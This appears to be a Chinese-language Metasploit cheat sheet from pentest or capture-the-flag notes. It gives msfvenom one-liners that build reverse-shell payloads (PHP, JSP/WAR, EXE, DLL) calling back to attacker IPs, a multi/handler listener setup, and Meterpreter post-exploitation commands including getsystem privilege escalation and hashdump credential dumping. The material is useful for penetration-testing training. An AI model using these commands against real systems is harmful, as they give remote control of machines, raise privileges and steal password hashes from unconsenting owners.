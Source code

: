 

- Metasploit Framework	(MSF)

```
msfconsole	进入框架
search	查找相关漏洞
use 进入/使用模块
info 查看信息
set payload windows/x64/meterpreter/reverse_tcp	设置攻击载荷
show options 查看模块需要配置的参数
set RHOST 10.10.10.128	设置参数
run / exploit	开始攻击
backgroun 挂session到后台
```

如果漏洞利用失败一直被挂起，那就可以尝试在 sessions 中迁移 reverse shell 的进程
```
migrate -N explorer.exe
```


### 常用方法

生成一个shell.php ， 设置参数 ， R 写入的方式写到shell.php中

- PHP
```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.10.128 LPORT=2233 R > shell.php
```

- JSP
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.55.3 LPORT=2233 -f war > reverse.war
```

- windows
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LPORT=1337 LHOST=tun0 -f exe > shell.exe
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.29 LPORT=2233 -f exe -o rev.exe  (use nc !)
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.29 LPORT=2233 -f exe -o rev.exe  (use nc !)
```

- dll
```bash
msfvenom -p windows/x64/shell_reverse_tcp -f dll LHOST=10.10.14.29 LPORT=1337 > rev.dll
```

- exe
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.29 LPORT=2233 -f exe -o rev.exe
set payload generic/shell_reverse_tcp

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.14 LPORT=2233 -f exe > reverse.exe
set payload windows/x64/meterpreter/reverse_tcp 
```

### 常用模块

**反向监听的模块**
```bash
use exploit/multi/handler

set payload php/meterpreter/reverse_tcp 
set payload windows/x64/meterpreter/reverse_tcp 
set payload windows/x64/meterpreter_reverse_https
set payload generic/shell_reverse_tcp (记得设置攻击载荷!!!)
```

#### Windows CMD

```
getuid = whoami
getsystem 提权到system
ipconfig
hashdump hash转储
sysinfo
execute -H -f notepad 新建notepad
migrate 2720 迁移进程
ps
getenv
```

